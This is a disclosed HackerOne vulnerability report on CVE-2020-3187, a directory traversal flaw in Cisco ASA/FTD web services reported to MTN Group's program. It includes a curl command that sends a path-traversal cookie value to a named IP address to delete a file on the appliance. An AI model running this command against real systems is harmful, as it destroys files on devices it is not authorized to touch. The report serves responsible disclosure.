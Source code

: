 # Unauthenticated Arbitrary File Deletion (CVE-2020-3187)

## Report Details
- **Report ID**: 1056611
- **URL**: https://hackerone.com/reports/1056611
- **State**: Closed
- **Severity**: high
- **Submitted**: 2020-12-11T14:53:44.743Z
- **Disclosed**: 2021-08-29T15:25:56.874Z

## Reporter
- **Username**: 3mm3
- **Name**: N/A

## Team
- **Name**: N/A
- **Handle**: mtn_group

## Vulnerability Information
## Summary:
A vulnerability in the web services interface of Cisco Adaptive Security Appliance (ASA) Software and Cisco Firepower Threat Defense (FTD) Software could allow an unauthenticated, remote attacker to conduct directory traversal attacks and obtain read and delete access to sensitive files on a targeted system. The vulnerability is due to a lack of proper input validation of the HTTP URL. An attacker could exploit this vulnerability by sending a crafted HTTP request containing directory traversal character sequences.


## Vulnerable Endpoint:
```
https://129.0.176.5/+CSCOE+/session_password.html
```

## Steps To Reproduce:


  1. First I performed a curl request to validate that /session_password.html gave a 200 response.
  2. Example to delete logo file "/+CSCOU+/csco_logo.gif".

```
curl -k -H "Cookie: token=../+CSCOU+/csco_logo.gif" https://129.0.176.5/+CSCOE+/session_password.html
```

## WHOIS
{F1113009}

## NOTE: No destructive behavior was performed on target.

## Impact

An exploit could allow the attacker to view or delete arbitrary files on the system.

## Attachments
- aaa.png
